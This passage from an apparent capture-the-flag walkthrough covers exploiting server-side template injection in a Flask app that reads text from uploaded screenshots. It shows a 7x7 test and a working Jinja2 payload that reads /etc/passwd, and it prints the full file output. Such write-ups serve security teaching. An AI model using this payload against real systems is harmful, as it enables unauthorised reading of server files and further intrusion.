 
The application send us a text file of the results. Opening the `results.txt` file we see:
```
<p>49
</p>
```

This means that the application/server executed a simple 7x7 mathematic equation, in another words, we have remote command execution.

## Foothold
Moving to another level now, lets see if we can get the `/etc/passwd` file. Googling around we can find multiple web sites with Flask SSTI payloads, after trying a couple ones  I found [this](https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e) one to be working:
```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

*While testing the SSTI payloads, I found out that some fonts works better than others, and we need to have a very clear screenshot of the payload. To circunvent this, I used [Figma](https://www.figma.com) to create my screenshots.*

![](images/passwd.png)

And we got the `results.txt`:
```
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```